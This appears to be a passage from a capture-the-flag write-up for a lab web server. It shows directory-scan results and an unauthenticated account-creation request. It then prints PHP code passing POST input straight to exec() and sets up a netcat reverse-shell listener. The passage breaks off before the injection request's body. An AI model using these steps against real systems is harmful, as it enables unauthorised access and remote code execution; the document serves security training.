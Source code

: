 ```
/css                  (Status: 301) [Size: 310] [--> http://10.10.11.104/css/]
/status.php           (Status: 302) [Size: 2968] [--> login.php]              
/js                   (Status: 301) [Size: 309] [--> http://10.10.11.104/js/] 
/logout.php           (Status: 302) [Size: 0] [--> login.php]                 
/accounts.php         (Status: 302) [Size: 3994] [--> login.php]              
/config.php           (Status: 200) [Size: 0]                                 
/logs.php             (Status: 302) [Size: 0] [--> login.php]
```

Any unauthenticated user can send the following post request to `http://10.10.11.104/accounts.php` in order to create an account. In this request, a user is created with credentials `carlos:helloworld`
```
POST /accounts.php HTTP/1.1
Host: 10.10.11.104
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:92.0) Gecko/20100101 Firefox/92.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 53
Origin: http://10.10.11.104
DNT: 1
Connection: close
Referer: http://10.10.11.104/login.php
Cookie: PHPSESSID=i14lq0oj38pm4s2ktiqrlrdh4j
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

username=carlos&password=helloworld&confirm=helloworld
```

After authenticating with `carlos:helloworld` and visiting `http://10.10.11.104/files.php` the attacker can download a copy of the source code titled `siteBackup.zip`. Dangerous *php* functions can be searched. The following snippet of source code comes from `logs.php`.
```
/////////////////////////////////////////////////////////////////////////////////////
//I tried really hard to parse the log delims in PHP, but python was SO MUCH EASIER//
/////////////////////////////////////////////////////////////////////////////////////

$output = exec("/usr/bin/python /opt/scripts/log_process.py {$_POST['delim']}");
echo $output;
```

## Exploitation and user.txt
Running `nc -lvnp 8888` starts a netcat listener. Sending the following post request to `logs.php` abuses remote code execution to gain a reverse shell.
```
POST /logs.php HTTP/1.1
Host: 10.10.11.104
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:92.0) Gecko/20100101 Firefox/92.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 230
Origin: http://10.10.11.104
DNT: 1
Connection: close
Referer: http://10.10.11.104/file_logs.php
Cookie: PHPSESSID=i14lq0oj38pm4s2ktiqrlrdh4j
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

```